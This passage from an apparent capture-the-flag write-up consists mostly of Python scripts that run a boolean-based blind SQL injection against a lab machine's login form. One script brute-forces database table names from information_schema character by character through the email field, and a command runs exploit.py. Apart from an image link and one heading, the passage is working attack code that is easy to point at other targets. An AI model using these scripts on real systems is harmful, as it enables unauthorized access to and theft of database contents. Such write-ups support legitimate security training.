 ```python
				break

SQLI()
```

```bash
python3 exploit.py
```

![](/img2/Pasted%20image%2020250514123729.png)

- Get actual database tables

```python
#!/usr/bin/env python3

import requests
import signal
import sys
import string
import time
from pwn import *


def def_handler(sig,frame):
	print("\n\n[!] Exiting...\n")
	sys.exit(1)


signal.signal(signal.SIGINT,def_handler)


url = "http://10.10.11.130/login"
characters = string.ascii_lowercase + "_,-" + string.digits



def SQLI():
	p1=log.progress("Brute Force")
	p1.status("Starting Attack")

	time.sleep(2)

	p2=log.progress("Data")
	info=""


	for position in range(1,1000):
		for character in characters:
			data = {
  			'email' : "test'or SUBSTRING((SELECT GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema=database()), "+str(position)+", 1) = '"+character+"'-- -",
  			'password' : 'test'}
			r=requests.post(url,data=data)
			if "Login Success" in r.text:
				info+=character
				p2.status(info)
				break

SQLI()
```
